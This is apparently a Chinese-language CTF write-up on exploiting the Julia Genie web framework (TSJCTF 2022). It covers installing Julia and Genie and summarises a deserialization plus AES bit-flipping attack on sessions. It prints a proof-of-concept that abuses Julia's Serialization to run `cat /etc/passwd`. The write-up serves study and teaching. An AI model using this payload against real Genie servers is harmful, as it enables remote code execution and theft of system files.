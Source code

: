 ```yaml
---
title: exp-of-the-Genie
date: 2023-03-20 23:29:33
tags:
mathjax: true
---
```




### 0x1 Abstract & Deploy



> Julia: 一个面向科学计算的高性能动态高级程序设计语言。
>
> Genie: 基于Julia开发的全栈Web 框架。
>
> exploit：上传文件名从`sessions/\x1`到`sessions/\xFF`的序列化数据，伪造解密后只有1byte的session，触发反序列化。
>
> keywords: 反序列化, session id, AES bit flipping attack
>
> 0Day: YES
>
> author:  [maple3142](https://github.com/maple3142) & [splitline](https://github.com/splitline)
>
> CTF Challenge: TSJCTF 2022 Genie(Crypto & Web) 



安装Julia https://julialang.org/downloads/ 一路点next 添加环境变量

<img src="https://i.328888.xyz/2023/03/21/PQPEN.png" style="zoom:50%;" />

安装Genie: 一行搞定

`pkg> add Genie`

运行`using Genie.Sessions`可能会报`ERROR: UndefVarError: Sessions not defined`的错，是因为Genie V5的更新把旧的session功能集成到了`GenieSession`这个新插件中。



### 0x2 Julia issue 32641 



> 序列化：把对象转换为字节形式存储的过程称为对象的序列化
>
> 反序列化：把字节序列转化为对象的过程

Julia 有反序列化漏洞，issue 32641 提供了现成的poc 

```julia
julia> using Serialization
julia> Serialization.deserialize(s::Serializer, t::Type{BigInt})=run(`cat /etc/passwd`);"反序列化任何东西就能rce" 
julia> filt=filter(methods(Serialization.deserialize).ms) do m
       String(m.file)[1]=='R' end;
julia> Serialization.serialize("poc.serialized_jl", (filt[1], BigInt(7)));
```
